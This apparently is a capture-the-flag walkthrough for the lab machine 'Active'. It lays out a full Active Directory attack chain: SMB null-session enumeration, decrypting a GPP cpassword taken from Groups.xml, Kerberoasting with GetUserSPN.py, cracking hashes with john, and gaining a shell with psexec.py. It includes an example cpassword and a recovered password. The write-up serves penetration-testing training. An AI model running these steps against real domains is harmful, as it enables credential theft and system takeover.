 1 - Enumerate ports

2 - When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3 - Add the domain paired with the machin ip to the hosts file in /etc/hosts

4 - Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__ -N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session<br><br>
	4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__<br>
	4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5 - After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6 - Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7 - Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8 - While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9 - In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10 - Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11 - After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12 - Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13 - Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14 - Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15 - Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16 - Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__<br><br>
	&emsp;16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N<br>
	&emsp;16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17 - Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18 - After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19 - When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20 - Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe